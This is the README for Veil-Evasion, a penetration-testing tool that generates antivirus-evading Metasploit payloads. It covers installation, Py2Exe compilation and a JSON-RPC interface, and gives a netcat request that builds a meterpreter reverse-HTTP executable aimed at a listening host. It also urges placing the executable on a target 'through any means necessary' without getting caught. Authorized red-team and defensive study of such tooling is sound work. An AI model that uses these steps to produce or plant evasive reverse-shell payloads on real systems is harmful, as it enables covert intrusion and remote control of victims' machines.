 # Veil-Evasion

Veil-Evasion is a tool designed to generate metasploit payloads that bypass common anti-virus solutions.

NOTE: `./setup/setup.sh` should be re-run on every major version update. If you receive any major errors on running Veil-Evasion, first try re-running this script to install any additional packages and update the common configuration file.

Veil-Evasion is currently under active support by @ChrisTruncer, @TheMightyShiv, @HarmJ0y.

Thanks to:
* @jasonjfrank
* @mjmaley
* @davidpmcguire

## Software Requirements:

### Linux

1.  Use Kali (x86) and all dependencies are pre-installed

**or**

1.  Install Python 2.7
2.  Install PyCrypto >= 2.3

### Windows (for Py2Exe compilation)

1.  Python (tested with x86 - http://www.python.org/download/releases/2.7/)
2.  Py2Exe (http://sourceforge.net/projects/py2exe/files/py2exe/0.6.9/)
3.  PyCrypto (http://www.voidspace.org.uk/python/modules.shtml)
4.  PyWin32 (http://sourceforge.net/projects/pywin32/files/pywin32/Build%20218/pywin32-218.win32-py2.7.exe/download)

## Setup (tl;dr)

Run sudo setup.sh -c on Kali x86.

Install Python 2.7, Py2Exe, PyCrypto, and PyWin32 on a Windows computer (for Py2Exe).

### Quick Install

```bash
sudo apt-get -y install git
git clone https://github.com/Veil-Framework/Veil-Evasion.git
cd veil-Evasion/
cd setup
sudo setup.sh -c
```

## Description

Veil-Evasion was designed to run on Kali Linux, but should function on any system capable of executing python scripts.  Simply call Veil-Evasion from the command line, and follow the menu to generate a payload.  Upon creating the payload, Veil-Evasion will ask if you would like the payload file to be converted into an executable by Pyinstaller or Py2Exe.

If using Pyinstaller, Veil-Evasion will convert your payload into an executable within Kali.

If using Py2Exe, Veil-Evasion will create three files:

* payload.py - The payload file
* setup.py - Required file for Py2Exe
* runme.bat - Batch script for compiling the payload into a Windows executable

Move all three files onto your Windows machine with Python installed.  All three files should be placed in the root of the directory Python was installed to (likely C:\Python27).  Run the batch script to convert the Python script into an executable format.

Place the executable file on your target machine through any means necessary and don't get caught!

## RPC Server
On the listener side, run:

`./Veil-Evasion --rpc`

This will start a listener on port 4242.

On the client side, you will need to run a client program. This can be a custom script or can be as simple as Netcat. The RPC server implements JSON-RPC. This is a good reference for interpreting requests and responses for JSON-RPC: http://json-rpc.org/wiki/specification

The RPC request format is as follows:

```
    method="version"            -   return the current Veil-Evasion version number
    method="payloads"           -   return all the currently loaded payloads
    method="payload_options"
        params="payload_name"   -   return the options for the specified payload
    method="generate"
        params=["payload=X",   
                "outputbase=Y"
                "overwrite=Z",
                "msfvenom=...",
                "LHOST=blah]     -   generate the specified payload with the given options and returns the path of the generated executable
```

This is a simple example of working with Veil-Evasion using Netcat:


```
root@kali:~# nc 127.0.0.1 4242
{"method":"version","params":[],"id":0}
```

And the server response:


```
{"id":0,"result":"2.21.4","error":null}

```

An example of a client program can be found here: http://github.com/miligulmohar/python-symmetric-jsonrpc/blob/master/examples/client.py

Note: The port for Veil-Evasion is 4242. This must be changed in client.py in order to work with it.

In order to generate a payload, *ALL* parameters must be included:

* payload - which payload to generate
* outputbase - the name to save the payload as
* LHOST - the ip address for the listening host
* LPORT - the port for the listening host
* pwnstaller - True to package python programs into an executable. False if not. Ignored for other payloads

This is a good reference to understand whether or not in use pwnstaller: http://www.verisgroup.com/blog/2014/05/07/pwnstaller-and-the-veil-framework/

An example of generating a payload:

```
root@kali:~# nc 127.0.0.1 4242
{"method":"generate","params":["payload=c/meterpreter/rev_http","outputbase=payloadName","LHOST=192.168.1.11","LPORT=2121","pwnstaller=False"],"id":1"}
```

And the server response:

```
{"id":8,"result":"/usr/share/veil-output/compiled/payloadName.exe","error":null}
```

Note: If there is no id specified in the request, Veil-Evasion will shut down. That being said, you can make as many valid requests as you would like until Veil-Evasion shuts down.

To shut down the RPC server run:

`./Veil-Evasion --rpcshutdown`
